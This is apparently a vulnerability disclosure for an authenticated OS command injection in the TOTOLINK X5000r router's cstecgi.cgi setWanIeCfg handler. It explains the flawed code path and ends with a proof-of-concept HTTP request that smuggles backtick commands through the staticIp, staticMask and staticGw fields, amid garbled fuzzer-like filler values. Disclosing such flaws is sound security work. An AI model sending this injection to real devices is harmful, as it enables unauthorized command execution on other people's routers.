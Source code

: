 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setWanIeCfg`.Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setWanIeCfg` (at 0x411324), binary /cgi-bin/cstecgi.cgi. The parameter `staticIp`,`staticMask`,`staticGw` are passed to 'Uci_set_str' without any check.
![setWanIeCfg](image.png)
Uci_Set_Str calls snprintf to format our param_4 into the string uci -c %s set .... and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image-1.png)
![uci_set_str2](image-2.png)
## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 1016
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setWanIeCfg", "wanMode": "aa`wvqaaaa\\a^be]aaaaead^]]a\\ad\\aaaaa]aa^aaa`baa]aaaaecaacaaa_aaaaabaa\\ad]\\aaaad`aaedaaa^_aawzqt^aab_^e_aaa^b`aaaaa]auztwaa\\a``aa", "1": ")yzq", "switchOpMode": "aaazzq\\bab__^bc]aa_\\caada_aa^`a^aaeaa`a]aacaa\\`aaeadaaaa^`aa_^a\\baaaaaeaaaab_a\\abaa\\aaa^aad{xqwabaaa`ba\\eaa_aaaaaaa^y{qt_]acaaaa", "0": "wumwzrwuq", "staticIp": "`ls -l`", "staticMask": "`ls -l`", "staticGw": "`ls -l`", "staticMtu": ")&`vzo`", "dhcpMtu": "]\\a\\]aae\\a]a^a^]`eaxuqw\\a^aaaa_]da^aaaaaecadebaaad]aaabaaeca`]a_aaaba]daatzts{a_^ac]daccaaaaaaa_aae^aaaeaaadbaaa_d_aa`^a_aaaaa`aaa]`aea]^aaa`daaa_aaaaadeaaaaae", "pppoeUser": "vzq{{q{zq", "pppoeMtu": "ba]zzqa\\]a\\aa]`^ccaab_`aaaa_a`aaa]aaeaa_aeed\\ba_aca`aeaaa^e_aaaaaaaa`_e]aa`a`e]acacaadaaaaeyzqwacc]aadaaaca\\aa_eaaaawzqracaba__a", "1492": "7twq", "dnsMode": "w~q{zq{zq", "priDns": "a_axxqaabe]b\\ca]ab_aaac`^eaad]]ab\\a_ba^aaea\\]aa^aa]a_ab_dc\\e_aaa`a^aaaaa]_]acbaaaa^_a]aababw|ut_e\\aaaea]a^aaa_aac_c]uzqsaaaaaaaa", "secDns": "ywswwqrxq"}
```